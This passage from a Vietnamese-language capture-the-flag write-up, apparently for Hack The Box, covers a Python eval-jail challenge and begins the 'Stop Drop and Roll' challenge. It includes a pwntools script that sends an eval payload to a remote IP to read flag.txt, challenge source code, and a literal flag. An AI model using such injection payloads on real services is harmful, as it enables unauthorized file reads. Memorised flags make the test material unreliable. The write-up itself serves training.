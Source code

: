 ```py
      print('WHAT WAS THAT?!\n')
    except:
      print(f"\n{banner2}\nI'm UNBREAKABLE!\n")
```
---

hàm eval() là hàm sẽ thực thi những câu lệnh python mà ta viết trong đó dưới dạng str. Nhưng những str ta nhập phải vượt qua black list chặn rất nhiều những ký tự và hàm quan trọng.

```py
# nc 

from pwn import *

def main() -> None:

    s = remote("83.136.252.194", 45881)

    print(s.recvuntil(b"\n\n").decode())
    s.sendline(b"print(open('flag.txt','r').read())#")
    print(s.recvuntil(b'}').decode())

if __name__ == "__main__":
    main()
```

### 3. Stop Drop and Roll

---
**_SOURCE:_**

```py
import random

CHOICES = ["GORGE", "PHREAK", "FIRE"]
FLAG = "HTB{1_wiLl_sT0p_dR0p_4nD_r0Ll_mY_w4Y_oUt!}"

print("===== THE FRAY: THE VIDEO GAME =====")
print("Welcome!")
print("This video game is very simple")
print("You are a competitor in The Fray, running the GAUNTLET")
print("I will give you one of three scenarios: GORGE, PHREAK or FIRE")
print("You have to tell me if I need to STOP, DROP or ROLL")
print("If I tell you there's a GORGE, you send back STOP")
print("If I tell you there's a PHREAK, you send back DROP")
print("If I tell you there's a FIRE, you send back ROLL")
print("Sometimes, I will send back more than one! Like this: ")
print("GORGE, FIRE, PHREAK")
print("In this case, you need to send back STOP-ROLL-DROP!")

ready = input("Are you ready? (y/n) ")

if ready.lower() != "y":
    print("That's a shame!")
    exit(0)

print("Ok then! Let's go!")

count = 0
tasks = []

for _ in range(500):
    tasks = []
    count = random.randint(1, 5)

```
